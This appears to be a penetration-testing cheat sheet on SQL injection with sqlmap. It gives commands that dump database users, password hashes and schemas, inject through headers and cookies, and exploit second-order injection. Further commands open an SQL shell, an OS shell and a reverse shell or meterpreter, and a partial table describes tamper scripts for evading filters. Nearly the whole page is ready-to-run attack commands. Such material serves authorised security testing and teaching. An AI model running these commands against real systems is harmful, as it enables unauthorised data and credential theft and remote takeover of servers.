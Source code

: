 ## SQL injection using SQLmap

Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn
```

Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

General tamper option and tamper's list

```powershell
tamper=name_of_the_tamper
```

| Tamper | Description |
| --- | --- |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|
|commalessmid.py | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'|
|concat2concatws.py | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'|
|charencode.py | Url-encodes all characters in a given payload (not processing already encoded)  |